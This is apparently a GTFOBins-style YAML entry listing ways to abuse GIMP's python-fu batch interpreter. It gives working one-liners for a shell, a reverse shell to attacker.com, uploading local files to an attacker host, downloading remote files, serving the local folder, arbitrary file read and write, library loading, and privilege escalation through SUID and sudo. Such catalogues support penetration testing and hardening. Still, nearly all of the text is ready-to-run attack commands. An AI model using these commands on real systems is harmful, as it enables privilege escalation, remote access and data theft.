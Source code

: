 ```yaml
---
description: The execution hangs after executing the Python code and can be terminated pressing ``ctrl-c``.
functions:
  shell:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'open("file_to_write", "wb").write("DATA")'
  file-read:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'print(open("file_to_read").read())'
  library-load:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
  sudo:
    - code: sudo gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
---
```

